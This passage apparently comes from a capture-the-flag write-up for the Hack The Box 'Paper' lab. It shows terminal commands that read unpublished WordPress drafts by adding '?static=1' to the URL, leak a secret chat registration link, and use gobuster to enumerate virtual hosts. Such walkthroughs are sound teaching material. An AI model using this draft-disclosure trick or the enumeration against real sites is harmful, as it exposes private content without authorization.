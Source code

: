 ## Html2text

We can just put static=1 as a parameter to view the secret. Use html2text to make it more readable in the terminal:

```sh
┌──(root💀kali)-[~/htb/paper]
└─# apt install html2text             
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
html2text is already the newest version (1.3.2a-28).
0 upgraded, 0 newly installed, 0 to remove and 135 not upgraded.
```

## Viewing Wordpress Draft

Now grab the secret with curl and pass to html2text to read it:

```sh
┌──(root💀kali)-[~/htb/paper]
└─# curl -s http://office.paper/?static=1 | html2text
Skip_to_content
[Blunder_Tiffin_Inc.]
******_Blunder_Tiffin_Inc._******
The_best_paper_company_in_the_electric-city_Scranton!
<SNIP>
# Warning for Michael
Michael, you have to stop putting secrets in the drafts. It is a huge security
issue and you have to stop doing it. -Nick
Threat Level Midnight
A MOTION PICTURE SCREENPLAY,
WRITTEN AND DIRECTED BY
MICHAEL SCOTT
[INT:DAY]
Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His
robotic butler Dwigt….
# Secret Registration URL of new Employee chat system
http://chat.office.paper/register/8qozr226AhkCHZdyY
# I am keeping this draft unpublished, as unpublished drafts cannot be accessed
by outsiders. I am not that ignorant, Nick.
# Also, stop looking at my drafts. Jeez!
<SNIP>
```

We could have scanned for vhosts to find that sub domain as well:

```sh
┌──(root💀kali)-[~/htb/paper]
└─# gobuster vhost -t 100 -k -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://office.paper
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://office.paper
[+] Method:       GET
[+] Threads:      100
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/02/06 16:47:28 Starting gobuster in VHOST enumeration mode
===============================================================
Found: chat.office.paper (Status: 200) [Size: 223163]
```